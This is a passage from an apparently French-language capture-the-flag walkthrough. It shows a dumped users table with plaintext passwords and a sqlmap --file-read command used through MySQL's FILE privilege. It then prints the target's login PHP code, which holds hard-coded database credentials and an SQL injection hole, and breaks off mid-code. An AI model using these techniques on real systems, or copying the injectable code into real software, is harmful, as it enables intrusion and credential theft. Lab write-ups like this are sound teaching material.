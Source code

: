 Avant tout, je dumpe les mots de passe de la base qui est utilisée pour le login :

```
Database: db
Table: users
[10 entries]
+----+--------------------+-----------------+----------+
| id | email              | password        | username |
+----+--------------------+-----------------+----------+
| 1  | jack@localhost     | gae5g5a         | jack     |
| 2  | ceo@localhost      | 5t96y4i95y      | ceo      |
| 3  | brad@localhost     | gae5g5a         | brad     |
| 4  | expenses@localhost | 5t96y4i95y      | expenses |
| 5  | julia@localhost    | fw54vrfwe45     | julia    |
| 6  | mike@localhost     | 4kworw4         | mike     |
| 7  | adrian@localhost   | fw54vrfwe45     | adrian   |
| 8  | john@localhost     | 4kworw4         | john     |
| 9  | admin@localhost    | 15The4Dm1n4L1f3 | admin    |
| 10 | alex@localhost     | dsfsrw4         | alex     |
+----+--------------------+-----------------+----------+
```

J'ai tenté d'utiliser les identifiants sur les mires de login... mais sans succès (on reste sur la même page).

## Kansas City Shuffle

Vu que je dispose du privilège `FILE` je peux utiliser le mot clé `LOAD_FILE` de MySQL. Avec `sqlmap` ça se fait avec l'option `--file-read=/var/www/html/admin/index.php` pour lire le code de la page de login :

```php
<?php                                                                                                                  
if (isset($_GET['id'])) {                                                                                              
    $id = $_GET['id'];                                                                                                 
    $mysqli = new mysqli('localhost', 'admin', 'MySQL1sn0tth33n3my', 'db');                                            

    if ($mysqli->connect_errno) {                                                                                      
        printf("Connect failed: %s\n", $mysqli->connect_error);                                                        
        exit();                                                                                                        
    }                                                                                                                  

    $sql = "SELECT username FROM users WHERE id = $id";                                                                

    if ($result = $mysqli->query($sql)) {                                                                              
        while($obj = $result->fetch_object()){                                                                         
            print($obj->username);                                                                                     
        }                                                                                                              
    } elseif ($mysqli->error) {                                                                                        
        print($mysqli->error);                                                                                         
```